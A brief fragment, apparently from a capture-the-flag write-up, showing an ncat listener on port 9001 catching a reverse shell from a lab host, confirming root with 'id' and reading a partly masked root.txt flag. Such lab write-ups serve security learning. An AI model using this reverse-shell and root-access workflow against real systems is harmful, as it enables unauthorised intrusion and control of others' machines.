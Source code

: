 ```bash
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.227.208:45404.
id
uid=0(root) gid=0(root) groups=0(root)

cat root.txt
691a834-------------------------
```